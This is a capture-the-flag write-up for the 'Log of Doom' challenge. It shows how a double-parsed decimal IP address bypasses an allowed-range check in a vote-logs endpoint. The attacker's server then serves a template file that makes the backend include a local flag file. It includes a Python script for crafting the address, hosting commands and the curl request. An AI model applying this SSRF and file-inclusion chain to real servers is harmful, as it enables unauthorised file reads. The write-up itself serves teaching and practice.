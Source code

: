 # Log of Doom
This challenge mentions an experimental feature in the logging portion of the mobile backend. Looking at the code we can see the `/vote-logs` endpoint has a section for retrieving votes from a `file` source, along with a note that it's experimental. This section, specifically the `read_vote_file` function, will be our target for this challenge.
### Decimal Addresses
To complete this challenge, we need to send a request to the server with the `file` source type, and a target for the `file_path` with a custom RSU file. The path does accept remote addresses, but it checks to ensure that the address is within the `192.168.100.0/24` address range. It also doesn't allow us to use a domain for the remote address. The function does allow the use of a decimal address rather than an IP string, and it also looks like theres some double handling of addresses in this format. This is where we can take advantage to trick the app into requesting the file from our own server. When checking the IP address is valid, the app converts the number into a bit string, then uses substrings to convert each part of the string to a integer for each address octet. It does not check if the bit string is longer than a regular IP, which means we can pass a much larger number and it will still process it normally. 
```python
bitstring = f"{int(host):032b}"
octet1 = int(bitstring[0:8], 2)
octet2 = int(bitstring[8:16], 2)
octet3 = int(bitstring[16:24], 2)
# Check if in 192.168.100.0/24
if (octet1, octet2, octet3) != (192, 168, 100):
	return {"error": "Only local addresses in 192.168.100.0/24 is allowed for remote RSU files!"}
```
Further down, the decimal is processed again, only this time the integer is bit shifted and masked to obtain the octets instead.
```python
decimal = int(url_parts[2])
octet1 = (decimal >> 24) & 0xFF
octet2 = (decimal >> 16) & 0xFF
octet3 = (decimal >> 8) & 0xFF
octet4 = decimal & 0xFF
url_parts[2] = f"{octet1}.{octet2}.{octet3}.{octet4}"
```
This means that for the initial check, the leftmost portion of the decimal is checked, whereas when converting to the full IP for use, the rightmost portion is used. We can take advantage of this by appending the bit string of our server IP to the bit string of an address in the valid range.
```python
import ipaddress
local_ip = bin(int(ipaddress.ip_address('192.168.100.0')))[2:]
target_ip = bin(int(ipaddress.ip_address('10.0.0.0')))[2:]
print(int(local_ip + target_ip, 2))
```
Now that we have our address, we need to create our RSU file to fetch.
### Experimental Logging
Further down in the `read_vote_file` function, there's a templating feature that allows us to include files on the server in our log results. The source code helps us out here by providing the path we need to include in our file. We don't need to add anything more than the template content as that will give us the flag on its own. Ensure the device you run these commands on has a public IP, as the challenge server will need to be able to reach it. We also can't specify a port in the host so we'll need to host our HTTP server on port 80. 
```
dot@stuff-server:~$ echo "{/app/rsu/log_of_doom_flag.txt}" > flag.rsu
dot@stuff-server:~$ python3 -m http.server 80
```
Now that we have a server the challenge can reach, we can use our address from the Python script to create our curl request.
```
dot@stuff:~$ curl http://mobile-app.commission.freedonia.vote/api/admin/vote-logs?source=file&file=http://867653487826042880/flag.rsu
{
	"source": "file",
	"votes": {
		"content": "cysea{maybe_experimental_doesnt_belong_in_production}"
	}
}
```
Whenever you see some data being processed in two different ways it's always a good hint to look a little closer.